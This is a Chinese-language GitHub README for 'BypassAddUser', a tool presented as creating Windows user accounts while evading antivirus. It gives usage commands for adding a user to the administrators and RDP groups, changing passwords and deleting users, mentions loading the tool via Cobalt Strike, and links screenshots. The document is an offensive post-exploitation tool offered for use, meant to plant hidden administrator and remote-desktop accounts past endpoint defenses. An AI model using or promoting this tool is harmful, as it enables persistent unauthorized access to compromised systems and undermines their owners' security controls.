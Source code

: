 # BypassAddUser
绕过杀软添加用户

## 感谢 AnonySec 大佬的宝贵建议

已测Win2008,Win2012,Win10都没问题

**注意密码复杂性！！！**

**注意密码复杂性！！！**

**注意密码复杂性！！！**

### 2020.12.12 更新：重构代码，加入添加rdp组功能

```
Usage: BypassAddUser.exe -u username -p password -g groups    添加用户
       BypassAddUser.exe -u username -p password -g groups -rdp    添加用户，并添加到rdp组
       BypassAddUser.exe -c UserName NewPassword    更改用户密码
       BypassAddUser.exe -d UserName    删除用户
Example: BypassAddUser.exe -u test -p testpass -g administrators
         BypassAddUser.exe -u test -p testpass -g administrators -rdp
         BypassAddUser.exe -c test NewtestPass
         BypassAddUser.exe -d test
```

### 添加用户，并加入rdp组
![images](https://github.com/TryA9ain/BypassAddUser_new/blob/master/Snipaste_2020-12-12_12-32-57.jpg)

### cs加载
![images](https://github.com/TryA9ain/BypassAddUser_new/blob/master/Snipaste_2020-12-12_12-43-26.jpg)

![images](https://github.com/TryA9ain/BypassAddUser_new/blob/master/Snipaste_2020-12-12_12-43-40.jpg)

![images](https://github.com/TryA9ain/BypassAddUser_new/blob/master/Snipaste_2020-12-12_12-43-48.jpg)
